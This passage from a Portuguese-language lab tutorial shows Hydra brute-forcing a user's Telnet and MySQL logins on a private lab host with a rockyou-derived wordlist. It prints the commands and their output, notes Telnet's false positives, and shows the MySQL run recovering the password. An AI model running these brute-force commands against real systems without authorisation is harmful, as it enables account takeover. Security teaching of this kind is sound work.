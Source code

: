 Este teste retornou o mesmo resultado, ou seja, a senha ``iloveyou``. O tempo do teste foi 3.120 segundos.

#### Hydra Telnet

Mesmo teste que os anteriores, mas com [Telnet](https://pt.wikipedia.org/wiki/Telnet), mas neste caso os resultados foram diferentes (veja saída a seguir):

```console
$ hydra -l antonio -P rockyou-menor.txt 192.168.122.47 telnet
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-10 10:33:51
[WARNING] telnet is by its nature unreliable to analyze, if possible better choose FTP, SSH, etc. if available
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1166511 login tries (l:1/p:1166511), ~72907 tries per task
[DATA] attacking telnet://192.168.122.47:23/
[23][telnet] host: 192.168.122.47   login: antonio   password: chocolate
[23][telnet] host: 192.168.122.47   login: antonio   password: lovely
[23][telnet] host: 192.168.122.47   login: antonio   password: jessica
[STATUS] 1166511.00 tries/min, 1166511 tries in 00:01h, 1 to do in 00:01h, 3 active
[STATUS] 583255.50 tries/min, 1166511 tries in 00:02h, 1 to do in 00:01h, 3 active
^C
real	2m16.684s
user	0m0.176s
sys	0m0.152s
```
Na saída do ``hydra`` com o Telnet, foi informado erroneamente que as senhas do ``antonio`` eram: ``chocolate``, ``lovely`` e ``jessica``. Todavia, nenhuma dessas senhas permitiu acesso ao sistema em testes posteriores. Lembrando que a senha correta seria ``iloveyou``, tal como visto nos outros testes.

> O próprio Hydra informa que testes com Telnet não são tão confiáveis (``[WARNING] telnet is by its nature unreliable to analyze...``). Atenção, como já sabíamos o resultado esperado, esse teste foi abortado (``Ctrl+c``) depois de uns 2 minutos de execução.

#### Hydra Mysql

Mesmo teste que os anteriores, mas com o banco de dados [Mysql](https://pt.wikipedia.org/wiki/MySQL)/[MariaDB](https://pt.wikipedia.org/wiki/MariaDB). Veja a saída a seguir:

```console
$ hydra -l antonio -P rockyou-menor.txt 192.168.122.47 mysql
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-10 14:27:09
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1166511 login tries (l:1/p:1166511), ~291628 tries per task
[DATA] attacking mysql://192.168.122.47:3306/
[3306][mysql] host: 192.168.122.47   login: antonio   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-10 14:27:20

real	0m10.597s
user	0m0.138s
sys	0m0.043s
```